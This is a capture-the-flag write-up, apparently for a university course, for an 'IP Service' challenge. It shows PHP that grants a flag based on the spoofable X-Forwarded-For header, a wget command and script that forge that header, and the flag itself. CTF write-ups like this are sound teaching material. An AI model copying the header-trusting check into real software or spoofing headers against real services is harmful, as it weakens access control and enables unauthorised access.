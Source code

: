# IP Service

Running `dirsearch`, we find the zip file named `backup.zip`.

![](img/dirsearch-ipservice.png)

Unzipping it, we find an `index.php` file that contains the follwing:

```php
<?php
    $ip = $_SERVER["HTTP_X_FORWARDED_FOR"];
    if (!$ip) {
        $ip = $_SERVER["REMOTE_ADDR"];
    }
?>
<!DOCTYPE html>
<html>
<head>
<title>IP Service</title>
<link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-eOJMYsd53ii+scO/bJGFsiCZc+5NDVN2yr8+0RDqr0Ql0h+rP48ckxlpbzKgwra6" crossorigin="anonymous">
<link href="/css/app.css" rel="stylesheet">
</head>
<body>
    <div class="text-center mt-5 pt-5">
        <h1>What's my IP?</h1>
        <h4 class="mt-5 mb-5">Your IP is: <strong><? echo $ip ?></strong></h4>
        <?php
        if ($ip == "137.137.137.137") {
            echo "<h4>Good job! Here's your flag: " . $_ENV["FLAG"] . "</h4>";
        }
        ?>
    </div>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/js/bootstrap.bundle.min.js" integrity="sha384-JEW9xMcG8R+pH31jmWH6WWP0WintQrMb4s7ZOdauHnUtxwoG2vI5DkLtS3qm9Ekf" crossorigin="anonymous"></script>
</body>
</html>

```

Thus, we need to set the `HTTP_X_FORWARDED_FOR` header to 137.137.137.137, which can be achieved by
running the following command: `wget --header="X-Forwarded-For:137.137.137.137" http://tpas.alunos.dcc.fc.up.pt:5017/`

![](img/ip-service-flag.png)

As we can see, the flag is `TPAS{1337_1s_wa1t1ng_f0r_y0u}`.

In short, we can solve this challenge by running the following script:

```sh
#!/bin/sh

wget --header="X-Forwarded-For:137.137.137.137" http://tpas.alunos.dcc.fc.up.pt:5017/ > /dev/null 2>&1
grep -oE "TPAS{.*}" index.html
rm index.html
```
